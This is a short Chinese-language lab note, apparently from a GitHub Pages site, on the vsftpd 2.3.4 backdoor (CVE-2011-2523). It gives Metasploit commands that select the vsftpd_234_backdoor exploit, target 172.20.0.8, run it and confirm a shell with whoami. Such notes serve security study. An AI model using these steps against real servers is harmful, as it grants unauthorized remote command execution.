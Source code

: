 ```yaml
---
layout: default
title: vsftpd笑脸漏洞
---
```


# 什么是vsftpd笑脸漏洞

> * 是vsftpd Compromised Source Packages Backdoor Vulnerability
> 
> * 是vsftpd应用2.3.4分支版本被人恶意修改，植入后门
> 
> * CVE-2011-2523

# vsftpd笑脸漏洞nday利用

```bash
search vsftpd
  0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
use 1
set rhosts 172.20.0.8
show options
run
whoami # 显示当前用户，无提示状态显示
```


